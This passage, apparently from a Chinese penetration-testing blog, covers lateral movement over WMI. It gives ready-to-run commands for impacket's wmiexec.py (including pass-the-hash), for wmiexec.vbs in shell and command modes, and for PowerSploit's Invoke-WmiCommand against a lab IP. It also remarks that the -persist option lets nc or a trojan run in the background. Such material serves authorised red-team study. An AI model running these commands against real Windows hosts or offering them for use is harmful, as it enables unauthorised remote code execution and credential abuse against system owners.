 ### wmiexec.py

在 impacket 工具包里有 wmiexec.py 脚本，可以用来直接获取 shell

```
python3 wmiexec.py administrator:1qaz@WSX@192.168.7.7
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210902113920.png)

wmiexec.py 还支持通过哈希传递获得 shell

```
python3 wmiexec.py -hashes LMHash:NTHash 域名/用户名@目标IP
```

### wmiexec.vbs

wmiexec.vbs 脚本通过 VBS 调用 WMI 来模拟 PsExec 的功能，wmiexec.vbs 下载地址：[https://github.com/k8gege/K8tools/blob/master/wmiexec.vbs](https://github.com/k8gege/K8tools/blob/master/wmiexec.vbs)

```
cscript //nologo wmiexec.vbs /shell 192.168.7.7 administrator 1qaz@WSX
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210902122716.png)

使用 vmiexec.vbs 执行单条命令

```
cscript wmiexec.vbs /cmd 192.168.7.7 administrator 1qaz@WSX "ipconfig"
```

因为这只是个半交互式的 Shell，因此对于运行时间比较长的命令，比如 ping、systeminfo 等，需要加上 -wait 5000 或更长的时间。

在运行 nc 等不需要输出结果但需要一直运行的进程时，可以使用 -persist 参数，当命令加了 -persist 选项后，程序会在后台运行，不会有结果输出，而且会返回这个命令进程的 PID，方便结束进程，这样就可以运行 nc 或者木马程序了。

不过目前 vmiexec.vbs 已经被卡巴斯基、赛门铁克等杀软列入查杀名单了。

### Invoke-WmiCommand

Invoke-WmiCommand.ps1 是 PowerSploit 工具包里的一部分，该脚本是利用 Powershell 调用 WMI 来远程执行命令。

在 Powershell 中运行以下命令

```
# 导入 Invoke-WmiCommand.ps1 脚本
Import-Module .\Invoke-WmiCommand.ps1

# 指定目标系统用户名
$User = "teamssix.com\administrator" 

# 指定目标系统的密码
$Password = ConvertTo-SecureString -String "1qaz@WSX" -AsPlainText -Force

# 将账号和密码整合起来，以便导入 Credential
$Cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $User,$Password

# 指定要执行的命令和目标 IP
$Remote = Invoke-WmiCommand -Payload {ipconfig} -Credential $Cred -ComputerName 192.168.7.7

# 将执行结果输出到屏幕上
$Remote.PayloadOutput
```
